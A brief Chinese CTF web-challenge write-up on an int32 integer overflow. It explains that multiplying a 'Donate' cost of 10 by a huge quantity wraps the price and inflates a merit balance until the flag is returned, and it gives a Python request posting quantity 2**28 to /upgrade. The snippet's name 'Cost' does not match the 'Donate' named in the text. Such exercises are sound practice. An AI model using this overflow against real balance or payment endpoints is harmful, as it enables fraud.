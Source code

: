 tags:: [[CTFWEB/整数溢出]]

- # 题目
	- `/upgrade`接口会根据`name`获取对应的cost(`int32`)，^^如果`name`是`Donate`就将其cost乘以`quantity`^^，最后让功德减去价格，得到新的功德值
		- 其中`Donate`对应的cost是10
	- `/`会在功德很多的时候返回flag
	- `/reset`会重置功德
- # 题解
	- 我们知道`i32(10)`乘以一个很大的数会造成上溢出，得到一个很小的数，我们可以通过这个方法得到大量功德
		- ```python
		  r = base_post(f"{url}/upgrade", data = {
		      "name": "Cost",
		      "quantity": 2 ** 28
		  }, acceptable_code = [200, 400])
		  print(r.text)
		  ```